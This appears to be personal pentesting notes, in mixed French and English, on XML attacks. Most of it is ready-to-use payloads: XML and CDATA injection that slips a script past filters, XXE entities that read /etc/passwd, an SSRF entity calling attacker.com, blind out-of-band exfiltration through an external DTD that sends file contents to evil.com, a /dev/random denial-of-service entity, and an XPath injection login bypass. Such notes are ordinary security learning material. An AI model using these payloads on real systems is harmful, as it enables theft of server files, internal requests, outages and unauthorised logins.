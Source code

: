 # XXE and other XML vulnerabilities

## XML injection

Si nos inputs sont directement ajoutés en tant que nœud dans un doc xml :

* We can inject malformed string to break the parser
* On peut modifier les informations enregistrées. Par exemple si notre input consiste en notre nom et que l'app rajoute ensuite automatiquement un champ pour nos droits, on peut fabriquer notre input de force à commenter la partie générée par l'appli et à la place mettre la notre \(owasp testing guide 4 page 138 pour un exemple\).
* If the xml is converted to html, `<![CDATA[]]>` might just be stripped, making it possible to inject other script undetected

```text
<html>
 <![CDATA[<]]>script<![CDATA[>]]>alert(‘xss’)<![CDATA[<]]>/
script<![CDATA[>]]>
 </html>
<!-- to : -->
<script>alert(‘XSS’)</script>
```

## XXE - _XML External Entities_

### Inband

Si le site nous renvoi directement ce qui a été parsé, on peut envoyer ce genre de fichier :

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE inband [
    <!ELEMENT inband ANY>
    <!ENTITY xxe SYSTEM "/etc/passwd">
]>
<inband>&xxe;</inband>
```

### SSRF - _Server Side Request Forgery_

On peut faire n'importe quelle requête _au nom du serveur_ en lui faisant suivre un lien pour load un DTD externe :

```markup
<?xml version="1.0"?>
<!DOCTYPE ssrf [
    <!ENTITY request SYSTEM "http://attacker.com">
]>
<ssrf>&request;</ssrf>
```

### Out-of-band \(blind\)

Pour "exfilter" les données au cas où elles ne nous sont pas montrées, on peut forcer le serveur à faire une requête vers notre serveur avec dans le lien les données.

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
    <!ENTITY % file_content SYSTEM "/etc/passwd">
    <!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%file_content;'>">
    %wrapper;
```

Au cas où le contenu du fichier ferait bugger le parser, on peut abuser de _CDTATA_ :

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
    <!ENTITY % file_content SYSTEM "/etc/passwd">
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % end "]]>">
    <!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%start;%file_content;%end;'>">
    %wrapper;
```

### DDOS

By doing this kind of request we can DDOS

```markup
<?xml version=”1.0” encoding=”ISO-8859-1”?>
 <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM “file:///dev/random” >
]>
<foo>&xxe;</foo>
```

See also "A Billion Laugh" attack

### Ressources supplémentaires

* [https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/) 
* [https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

## XPath Injection

Elles suivent la même logique que les injections SQL.

```text
Cette requête récupère le compte correspondant à "gandalf" avec le mdp "!3c"

string(//user[username/text()=’gandalf’ and password/text()=’!c3’]/account/text())

En insérant ces valeurs :
Username: ‘ or ‘1’ = ‘1
Password: ‘ or ‘1’ = ‘1 

Elle deviendrait cela :
string(//user[username/text()=’’ or ‘1’ = ‘1’ and password/
text()=’’ or ‘1’ = ‘1’]/account/text())
```

Nous permettant de nous authentifier systématiquement.

J'imagine que le même genre de chose est possible avec XQuery.

